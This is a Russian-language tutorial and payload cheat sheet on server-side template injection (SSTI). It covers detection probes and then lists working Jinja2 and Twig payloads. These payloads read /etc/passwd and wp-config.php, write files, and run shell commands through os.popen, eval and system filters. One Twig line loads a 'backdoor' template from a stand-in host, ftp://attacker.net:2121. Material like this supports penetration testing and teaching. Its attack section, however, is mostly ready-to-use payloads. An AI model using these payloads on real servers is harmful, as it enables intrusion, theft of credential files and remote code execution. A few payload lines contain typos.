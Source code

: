# SSTI - Server Side Template Injection
Server Side Template Injection – это уязвимость (то есть вид атаки на шаблонизаторы), при которой непосредственная вставка пользовательских данных в шаблон может спровоцировать критическую уязвимость в системе.

Template Injection может возникнуть, если пользовательские данные вставляются в шаблон без какой-либо валидации (или с плохой валидацией)

Веб-шаблон – это некоторый тематический html документ, который не является полноценной html страницей, а лишь оболочкой для каких-либо данных. Для ассоциативного ряда можно представить вебшаблон как бланк принятия посылки с почты. Бланк имеет общую структуру (графу ФИО, телефон, получатель, отправитель и так далее).Таких бланков много и все они одинаковые для каждого человека, который будет ее заполнять. Но каждый заполняет ее своими данными.

Шаблонизатор – это программное обеспечение, позволяющее использовать шаблоны для генерации конечных html-страниц. Другими словами, именно шаблонизатор занимается отделением представления конечного результата от исполняемого кода, который в свою очередь заполняет определенными данными шаблон 

|    Среда        | Описание                      
|----------------|-------------------------------|
|Java|Apache, Velocity, FreeMarker, Histone  |    
|PHP  |BH, Fenom, Smarty, Twig, TinyButStrong, XTemplate, Histone, Separate, Blade, Sigma, PHPTAL, Facebook, XHP, dwoo, Blitz, templates | 
|Python | Genshi, Kid, Jinja2, Mako |
|Perl|Template, Toolkit, HTML::Template|
|Ruby |Ruby, Erubis, Haml, Slim, Liquid |
|JS |bem-xjst, BH, Handlebars, Underscore, pug, Histone |


При тестировании веб приложения уязвимости SSTI следует
придерживаться следующего алгоритма:
- Обнаружение
- Идентификация
- Эксплуатация: Чтение --> Исследование --> Атака

 ### Обнаружение
 ```
{{7*7}}
${7*7}
<%= 7*7%>
${{7*7}}
#{7*7}
*{7*7}
```

### Идентификация

![Идентификация](https://github.com/user-attachments/assets/eb6fc930-4d4a-4bae-9455-683fb8b2d622)



### Эксплуатация (чтение)

В документации есть ключевые части, которые следует просмотреть с точки зрения эксплуатации уязвимости:
- Раздел «For Template Authors» описывает базовый синтаксис;
- «Security Considerations» - есть огромный шанс, что разработчики веб приложения не читали данный раздел;
- Список встроенных функций, методов и переменных;
- Список дополнений и расширений — некоторые из них могут быть включены по умолчанию.

### Эксплуатация (Исследование)
Многие шаблонизаторы имеют объект «self», который предоставляет информацию обо всех других объектах и методах. Если же объекта self нет, то можно попробовать профаззить объекты с помощью инструментов Burp Suite или Wfuzz и словарей с готовыми полезными нагрузками (Seclists, FuzzDB)

### Эксплуатация (Атака)

Допустим, было обнаружено веб приложение, уязвимое к SSTI. Также было обнаружено, что приложение использует шаблонизатор Jinja2. Тогда можно проэксплуатировать уязвимость следующим образом: например, добьемся чтения локального файла сервера. Так как шаблонизатор написан на Python, будем использовать функции mro и subclasses ().


### Суть SSTI заключается в том, чтобы использовать методы языка, на которых написан шаблонизатор, в своих целях.

Краткое описание классов, методов и атрибутов:
```
__class__ возвращает объект, которому принадлежит тип
__mro__ возвращает кортеж, содержащий базовые классы, унаследованные объектом, и метод анализируется в порядке кортежей во время синтаксического анализа.
__base__ возвращает базовый класс, унаследованный этим объектом
// __base__ и__mro__ используется для поиска базового класса.
__subclasses__ Каждый новый класс сохраняет ссылки на подклассы. Этот метод возвращает список ссылок, которые все еще доступны в классе.
__init__ метод инициализации класса
__globals__ Ссылка на словарь, содержащий глобальные переменные функции.
```
#### Атрибут __mro__ в Python позволяет «двигаться» по древу и наследовать вверх к суперклассу, а функция subclasses () позволяет «двигаться» вниз к наследникам. Таким образом, можно «выбраться» из одного класса и воспользоваться другим.
```
{''.__class__}}
{{''.__class__.__mro__}}
{{''.__class__.__mro__[2]. Subclasses__()}}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```


# Cheet shet
### Jinja2

#### Получение списка классов:
```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```
#### Чтение файлов с удаленного сервера:
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
#### Запись в файл на удаленном сервере:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt','w').write('Hello here !') }}
```
#### Выполнение файлов на удаленном сервере:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
#### Для Python 3
 #### Чтение файлов с удаленного сервера:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```
#### Выполнение файлов на удаленном сервере:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("_
_import__('os').popen('id').read()")}}
{{''.__class__.__mro__[1].__subclasses__()[280]('id', shell=True, stdout=-1).communicate()}}
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('id').read()}}
```

### Twig

#### Чтение файлов с удаленного сервера:
```
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```
#### Выполнение файлов на удаленном сервере:
```
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```
